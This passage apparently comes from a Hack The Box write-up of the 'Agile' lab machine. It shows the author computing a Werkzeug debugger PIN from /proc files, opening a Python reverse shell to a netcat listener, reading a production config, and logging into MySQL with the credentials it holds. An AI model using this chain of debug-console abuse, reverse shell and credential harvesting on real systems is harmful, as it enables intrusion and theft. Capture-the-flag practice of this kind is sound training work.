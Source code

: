 So this is the script, admittedly I already got some of the information but let me show you some of whats important

You can get the username with /proc/self/environ

![web5](./SS/web5.png)

Heres the directory of the application running 

The private bits are interesting, initially we need the mac address converted to an integer for the first bit. The second bits we need are the machine id and the first line of the proc/self/cgroup and I've already done this so I feel like skipping some steps here tbh and am good 


Running the script and putting in the pin gets me this 

![web6](./SS/web6.png)

Now I just put a python reverse shell in there and get a shell 

![web7](./SS/web7.png)

```sh
┌──(stowner㉿kali)-[~/Desktop/HackTheBox/Agile]
└─$ nc -lvnp 9001                  
listening on [any] 9001 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.203] 55124
$ whoami
whoami
www-data
$ cat config_prod.json                                                                        
cat config_prod.json                                                                          
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}$ mysql -u superpassuser -p 'dSA6l7q*yIVs$39Ml6ywvgK' superpass
mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK' superpass
mysql: [Warning] Using a password on the command line interface can be insecure.
```